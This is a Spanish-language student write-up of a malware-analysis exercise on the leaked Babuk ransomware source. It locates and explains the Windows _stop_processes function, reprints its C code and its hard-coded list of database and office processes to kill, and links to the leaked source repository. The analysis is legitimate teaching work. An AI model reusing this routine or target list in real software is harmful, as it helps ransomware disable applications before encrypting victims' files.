Babuk es un ransomware que tuvo un significativo auge a comienzos de 2021 y cuyo código fue liberado de forma súbita por sus creadores. Este malware es multiplataforma, existiendo versiones para Linux, Windows, routers y varios dispositivos IoT. Su código está escrito en los lenguajes Go y C.

El código fuente está disponible en el siguiente repositorio: https://github.com/Hildaboo/BabukRansomwareSourceCode


## **Tarea 1**
Una de las características del malware es que ejecuta una rutina o función que detiene ciertos procesos del sistema para evitar su detección por parte de estos. En otras ocaciones suele detectar la presencia de herramientas de análisis y detiene su propia ejecución o la camufla para evitar ser analizada.

Esta tarea consiste en la localización de la función (ojo, no donde esta es llamada) que detiene los procesos en la versión para sistemas Windows del malware Babuk.

Es decir:
- Localizad el código de la función (de nuevo, NO DONDE ES LLAMADA).
- Realizad un análisis de código de la función.
- Enumerar los procesos que tiene en cuenta esta función para que sean detenenidos.

Documentad profusamente el proceso que habéis realizado (capturas de pantalla, evidencias). Cuanto más detallada (en calidad) esté hecho el análisis mayor será la puntuación.

--------------------------------------

### ¿Global o Cscope?
Si bien ambas son herramientas clásicas de navegación de código, en este escenario concreto Global tiene ventajas clave:
- Soporte Multilenguaje: El ejercicio menciona que Babuk usa Go y C. Cscope está muy centrado en C/C++. Global, a través de pygments o ctags, maneja mucho mejor la indexación de diversos lenguajes.
- Escalabilidad: Global genera una base de datos de símbolos más rápida y eficiente para proyectos con muchos archivos y carpetas, como es el caso de una filtración completa de código fuente.
- Integración: Si usamoss VS Code o Vim, la integración de Global suele ser más fluida para saltar directamente de la "llamada" a la "definición" de la función.

Así que vamos a usar:
- Global.
- VS Code con las extensiones C/C++ de Microsoft y Go.


### **Crear una BD simbólica con Global**
```
sudo apt install global
gtags
```
donde:
- Instalamos global.
- `gtags`: Se generan 3 archivos: GTAGS, GRTAGS, GPATH. 



###  **Mostrar un recuento de entradas en la base de datos de Global**
```
usuario@usuario-1-2:~/global -c
ARGS_H
BABUK_FILEMETA
BABUK_KEYS
BABUK_SESSION
BLKSIZE
BUILD
CONST_BLOCK_MINUS
CONST_BLOCK_PLUS
CONST_LARGE_FILE
CONST_MEDIUM_FILE
CRC32_H_INCLUDED
Ch
DRBG_BAD_LENGTH
DRBG_BAD_PARAMETER
DRBG_ENTROPY_FAIL
DRBG_ERROR_BASE
DRBG_HANDLE
DRBG_MAX_BYTES_PER_BYTE_OF_ENTROPY
DRBG_MAX_INSTANTIATIONS
DRBG_MAX_SEC_STRENGTH_BITS
DRBG_NOT_AVAILABLE
DRBG_OK
DRBG_OUT_OF_MEMORY
DRBG_RESULT
DRBG_RET
DRBG_TYPE
DumpHex
ECRYPT_BIG_ENDIAN
ECRYPT_BLOCKLENGTH
ECRYPT_CONFIG
ECRYPT_DEFAULT_BTOW
ECRYPT_DEFAULT_ROT
ECRYPT_DEFAULT_SWAP
ECRYPT_DEFAULT_WTOW
ECRYPT_GENERATES_KEYSTREAM
ECRYPT_HAS_SINGLE_BLOCK_FUNCTION
ECRYPT_HAS_SINGLE_BYTE_FUNCTION
ECRYPT_HAS_SINGLE_PACKET_FUNCTION
ECRYPT_I8T_IS_BYTE
ECRYPT_IVSIZE
ECRYPT_KEYSIZE
ECRYPT_LITTLE_ENDIAN
ECRYPT_MACHINE_ROT
ECRYPT_MACHINE_SWAP
ECRYPT_MAXIVSIZE
ECRYPT_MAXKEYSIZE
ECRYPT_MAXVARIANT
ECRYPT_NAME
ECRYPT_NATIVE64
ECRYPT_PORTABLE
ECRYPT_PROFILE
ECRYPT_SYNC
ECRYPT_UNKNOWN
ECRYPT_USES_DEFAULT_ALL_IN_ONE
ECRYPT_USES_DEFAULT_BLOCK_MACROS
ECRYPT_VARIANT
ECRYPT_ctx
ECRYPT_decrypt_blocks
ECRYPT_decrypt_bytes
ECRYPT_decrypt_packet
ECRYPT_encrypt_blocks
ECRYPT_encrypt_bytes
ECRYPT_encrypt_packet
ECRYPT_init
ECRYPT_ivsetup
ECRYPT_keysetup
ECRYPT_keystream_blocks
ECRYPT_process_bytes
ENTROPY_CMD
EXTERNAL_DRBG
EXTRACT
F
FALSE
FREE
GET_BYTE_OF_ENTROPY
GET_NUM_BYTES_PER_BYTE_OF_ENTROPY
HASH_ERROR_BASE
HAVE_BOOL
HMAC_DRBG_MAX_BYTES_PER_REQUEST
HMAC_DRBG_MAX_PERS_STR_BYTES
HMAC_ERROR_BASE
I16T
I32T
I64T
I8T
INIT
IsWow64
MALLOC
MGF1_ERROR_BASE
Maj
NOTE_FILE_NAME
NTRUCALL
NTRU_BAD_ENCODING
NTRU_BAD_LENGTH
NTRU_BAD_PARAMETER
NTRU_BAD_PRIVATE_KEY
NTRU_BAD_PUBLIC_KEY
NTRU_BUFFER_TOO_SMALL
NTRU_CRYPTO_DRBG_H
NTRU_CRYPTO_ERROR_H
NTRU_CRYPTO_H
NTRU_CRYPTO_PLATFORM_H
NTRU_EES1087EP1
NTRU_EES1087EP2
NTRU_EES1171EP1
NTRU_EES1499EP1
NTRU_EES401EP1
NTRU_EES401EP2
NTRU_EES439EP1
NTRU_EES443EP1
NTRU_EES449EP1
NTRU_EES541EP1
NTRU_EES587EP1
NTRU_EES593EP1
NTRU_EES613EP1
NTRU_EES659EP1
NTRU_EES677EP1
NTRU_EES743EP1
NTRU_EES761EP1
NTRU_EES887EP1
NTRU_ENCRYPT_PARAM_SET_ID
NTRU_ERROR_BASE
NTRU_FAIL
NTRU_INVALID_PARAMETER_SET
NTRU_OID_NOT_RECOGNIZED
NTRU_OK
NTRU_OUT_OF_MEMORY
NTRU_RESULT
NTRU_RET
NTRU_UNSUPPORTED_PARAM_SET
PUT_32BIT_MSB_FIRST
QUEUE
QUEUE_ERR_TIMEOUT
QUEUE_H_INCLUDED
ROTL16
ROTL32
ROTL64
ROTL8
ROTR16
ROTR32
ROTR64
ROTR8
ROUND
SHA256_HMAC_DRBG
SHA512_Block
SHA512_Bytes
SHA512_Final
SHA512_Init
SHA512_Simple
SHA512_State
SHA_ERROR_BASE
SWAP16
SWAP32
SWAP64
TRUE
U16C
U16TO16_BIG
U16TO16_LITTLE
U16TO8_BIG
U16TO8_LITTLE
U16V
U32C
U32TO32_BIG
U32TO32_LITTLE
U32TO8_BIG
U32TO8_LITTLE
U32V
U64C
U64TO64_BIG
U64TO64_LITTLE
U64TO8_BIG
U64TO8_LITTLE
U64V
U8C
U8TO16_BIG
U8TO16_LITTLE
U8TO32_BIG
U8TO32_LITTLE
U8TO64_BIG
U8TO64_LITTLE
U8V
UPDATE
VERSION_MUTEX
_CIPHER_SHA512_H
_CRT_SECURE_NO_WARNINGS
_NTRU_ENCRYPT_PARAM_SET_ID
__ANOTHER_H
__H_DEBUG_
__MEMORY_H
_dbg_initialize
_dbg_report
_dbg_uninitialize
_decrypt_file
_encrypt_file
_halloc
_hfree
_load_hidden_partitions
_mem_initialize
_memcpy
_memset
_processDrive
_que_initialize
_que_pop
_que_push
_remove_shadows
_stop_processes
_stop_services
add
and
argz_arg
argz_option
argz_value
bigsigma0
bigsigma1
bool
cmult
crecip
curve25519_donna
div_by_2_25
div_by_2_26
entry
enum_shares
f1
f2
fcontract
fdifference
fexpand
find_files_network
find_files_recursive
find_needle
find_paths_recursive
fmonty
fmul
fproduct
freduce_coefficients
freduce_degree
fscalar_product
fsquare
fsquare_inner
fsum
genK
gen_context
generate_keystream
get_entropy
h1
h2
int16_t
int8_t
lilBabuk
limb
main
not
rorB
rorL
s16
s32
s32_eq
s32_gte
s64
s8
setup_update
shrB
shrL
smallsigma0
smallsigma1
step_P
step_Q
swap_conditional
u16
u32
u64
u8
uint16_t
uint32
uint32_t
uint64
uint64_t
uint8_t
update_P
update_Q
writeD
writeE
writeK
xcrc32
xor
```
donde:
- Obtenemos un listado de símbolos indexados (funciones, macros, etc.).
- En ese listado aparece un candidato muy claro para hacer el objetivo que indica el ejercicio ➡ "detiene ciertos procesos del sistema | detiene su propia ejecución" ➡ `_stop_processes`.


### **Localizar el código de la función**
El ejercicio nos pide: "Localizar el código de la función (NO dónde se llama)”, para ello le vamos a pedir a Global que nos lleve a la definición del símbolo y nos diga archivo + línea.
```
global -x _stop_processes
_stop_processes   208 Babyk/another.cpp void _stop_processes() {
```
donde:
- `-x` hace que, además de la ruta, nos muestra el número de línea y el contenido de la línea. 
- Símbolo: `_stop_processes`.
- Archivo: `Babyk/another.cpp`
- Línea: `208`.
- Inicio del cuerpo: `void _stop_processes() {`


**Abrimos exactamente esa ruta y línea en VS**



### **Ver todas las referencias a la función _stop_processes()**
Aunque el ejercicio dice explícitamente que "no se pide donde se llama a _stop_processes”, sólo por curiosidad:
```
global -rx _stop_processes
_stop_processes     7 Babyk/another.h  void _stop_processes();
_stop_processes   590 Babyk/entry.cpp          _stop_processes();
```
donde:
- Vemos que la función `_stop_processes` es llamada en `entry.cpp`.


### **Análisis de la función**
```
void _stop_processes() {
    HANDLE hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPALL, 0);
    PROCESSENTRY32W pEntry;
    pEntry.dwSize = sizeof(pEntry);
    BOOL hRes = Process32FirstW(hSnapShot, &pEntry);
    while (hRes)
    {
        for (int i = 0; i < _countof(processes_to_stop); i++) {
            if (lstrcmpW(processes_to_stop[i], pEntry.szExeFile) == 0) {
                HANDLE hProcess = OpenProcess(PROCESS_TERMINATE, 0, (DWORD)pEntry.th32ProcessID);
                if (hProcess != NULL)
                {
                    TerminateProcess(hProcess, 9);
                    CloseHandle(hProcess);
                }
                break;
            }
        }
        hRes = Process32NextW(hSnapShot, &pEntry);
    }
    CloseHandle(hSnapShot);
}
```
donde:
- Obtiene una snapshot del sistema para poder enumerar procesos: `HANDLE hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPALL, 0);`
- Inicializa la estructura de enumeración:
  - `PROCESSENTRY32W pEntry;`
  - `pEntry.dwSize = sizeof(pEntry);`
  - Esto es imprescindible para que `Process32FirstW / Process32NextW` funcionen.
- Empieza a enumerar procesos:
  - `BOOL hRes = Process32FirstW(hSnapShot, &pEntry);`
  - `while (hRes) { ...; hRes = Process32NextW(hSnapShot, &pEntry); }`
  - Recorre todos los procesos visibles en el snapshot.
- Compara el nombre del ejecutable de cada proceso contra una lista:
  ```
  for (int i = 0; i < _countof(processes_to_stop); i++) {
    if (lstrcmpW(processes_to_stop[i], pEntry.szExeFile) == 0) {
        ...
        break;
    }
  }
  ```
  - `pEntry.szExeFile`: Contiene el nombre del ejecutable (wide string).
  - `processes_to_stop`: Es un array con los nombres objetivo. ***********************************************
  - `lstrcmpW(...) == 0`: Implica coincidencia exacta y case-sensitive.
- Si hay match (coincidencia), intenta terminar el proceso
  ```
  HANDLE hProcess = OpenProcess(PROCESS_TERMINATE, 0, (DWORD)pEntry.th32ProcessID);
  if (hProcess != NULL) {
      TerminateProcess(hProcess, 9);
      CloseHandle(hProcess);
  }
  ```
  - Abre el proceso con permiso `PROCESS_TERMINATE`.
  - Llama a `TerminateProcess` con código de salida `9` que es terminación abrupta.
  - Cierra el handle.
  - Si `OpenProcess` falla (por permisos, procesos protegidos, etc.), no lo mata y sigue.
- Cierra el snapshot: `CloseHandle(hSnapShot);`.


### Enumeración de los procesos que tiene en cuenta esta función para que sean detenidos
La lista de los procesos que tiene en cuenta esta función para que sean detenidos, está referenciada como `processes_to_stop`. Debemos localizar la definición de ese array ya que, ahí estarán los nombres de procesos.

```
global -x processes_to_stop
```
Pero no devuelve nada, Parece que Global no lo ha indexado como un Símbolo. Probablemente no es una función ni una variable global que gtags haya considerado lo suficientemente importante como para indexar como `punto de entrada`.


Hacemos una búsqueda tipo grep:
```
global -g processes_to_stop
Babyk/another.cpp
```
donde:
- `-g`: Le indica a Global que ignore el índice de símbolos y realice una búsqueda de expresión regular en todo el texto del proyecto.
- Archivo: `Babyk/another.cpp`. Resulta que la lista de los procesos a detener está en el mismo archivo, un poco más arriba.
- Línea: `10`.




```
static const WCHAR* processes_to_stop[] = { L"sql.exe", L"oracle.exe", L"ocssd.exe", L"dbsnmp.exe", L"synctime.exe", 
L"agntsvc.exe", L"isqlplussvc.exe", L"xfssvccon.exe", L"mydesktopservice.exe", L"ocautoupds.exe", L"encsvc.exe", 
L"firefox.exe", L"tbirdconfig.exe", L"mydesktopqos.exe", L"ocomm.exe", L"dbeng50.exe", L"sqbcoreservice.exe", 
L"excel.exe", L"infopath.exe", L"msaccess.exe", L"mspub.exe", L"onenote.exe", L"outlook.exe", L"powerpnt.exe", 
L"steam.exe", L"thebat.exe", L"thunderbird.exe", L"visio.exe", L"winword.exe", L"wordpad.exe", L"notepad.exe" };
```

En el sistema operativo Windows, cuando un proceso tiene un archivo abierto, el SO impone un bloqueo de escritura. Por ejemplo, si el ransomware intentara cifrar un archivo de base de datos mientras sql.exe o oracle.exe mientras están activos, la operación fallará con un error de "Acceso Denegado". Al finalizar forzosamente estos procesos mediante la lista `processes_to_stop`, el malware garantiza que estos archivos sean sobrescritos por el algoritmo de cifrado.


### **APIs de Windows que usa 
Resumen de APIS de windows que usa para "detener ciertos procesos del sistema | detener su propia ejecución":
- CreateToolhelp32Snapshot: El malware llama a esta función para obtener una "fotografía" o enumeración de todos los procesos que se están ejecutando en el sistema en ese instante.
- Process32FirstW / Process32NextW: Estas funciones permiten al malware "caminar" por esa fotografía. Comienza con el primer proceso y va saltando al siguiente en un bucle do-while.
- Comparación de nombres: Dentro del bucle, el malware compara el nombre del proceso actual con cada uno de los nombres de la lista `processes_to_stop`.
- OpenProcess. Si encuentra una coincidencia, usa esta API para obtener permisos de "limpieza" o acceso al proceso usando su ID (PID).
- TerminateProcess. Es la ejecución final. Una vez tiene el permiso (handle), le ordena al kernel de Windows cerrar el proceso inmediatamente


-------------------------------------------------------

## **Tarea 2**
Aquí (https://github.com/Hildaboo/BabukRansomwareSourceCode/blob/main/nas/enc/main.go#L810), se encuentra la función “main” del código del cifrador escrito en Go de la versión para dispositivos NAS de Babuk.

Esa función representa el punto de entrada del ejecutable. Dicho ejecutable es el que utilizan los cibercriminales para cifrar un sistema. Es decir, explotan un sistema, filtran el ejecutable y este se encarga de ir cifrando todos los archivos de la víctima en ese sistema.

Comentad el funcionamiento de la función referenciada con todo el detalle posible. Si no entendéis algunas partes saltadlas y proseguid o al menos comentad lo que creeis que es.

Código: https://github.com/Hildaboo/BabukRansomwareSourceCode/blob/main/nas/enc/main.go#L810
